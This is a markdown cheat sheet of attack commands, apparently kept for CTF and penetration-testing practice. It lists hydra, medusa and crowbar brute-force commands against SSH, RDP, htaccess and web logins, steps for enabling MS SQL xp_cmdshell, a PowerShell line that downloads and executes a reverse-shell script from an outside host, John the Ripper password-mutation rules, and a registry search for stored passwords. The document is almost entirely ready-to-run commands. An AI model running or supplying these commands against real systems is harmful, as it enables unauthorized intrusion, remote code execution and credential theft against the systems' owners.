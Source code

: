 # Command reference for CTFs and pen testing practice



## Network Brute Force Commands

### htacess
`medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir`

### RDP
`crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1`

### SSH
`hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v`

### HTTP Post
`hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`


## MS SQL RCE and Rev shell

`sqsh -U sa -S <ip>:<port>`

### test xp cmdshell
`xp_cmdshell 'whoami'`  
`go`  

### if necessary, enable xp_cmdshell
`EXEC SP_CONFIGURE 'show advanced options',1`  
`reconfigure`  
`go`  


`EXEC SP_CONFIGURE 'xp_cmdshell',1`  
`reconfigure`  
`go`  

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

`xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
`go`  

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
`john --rules --wordlist=wordlist.txt hashes.txt`  
`john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt`  


## John Wordlist Rules

`[List.Rules:Wordlist]`  
`$[0-9]`  
`$[0-9]$[0-9]`  
`cAz"[0-9]"`  
`cAz"[0-9][0-9]"`  
`cAz"[£!$]"`  
`cAz"[0-9][£!$]"`  

#### or add to a custom rules list like [List.Rules:MyRule]
`john --rules=MyRule --wordlist=wordlist.txt hashes.txt`

 a good one to use is --rules=Jumbo



## Windows Misc

### Search through registry for "pass" in value name
`reg query HKLM /f pass /t REG_SZ /s`
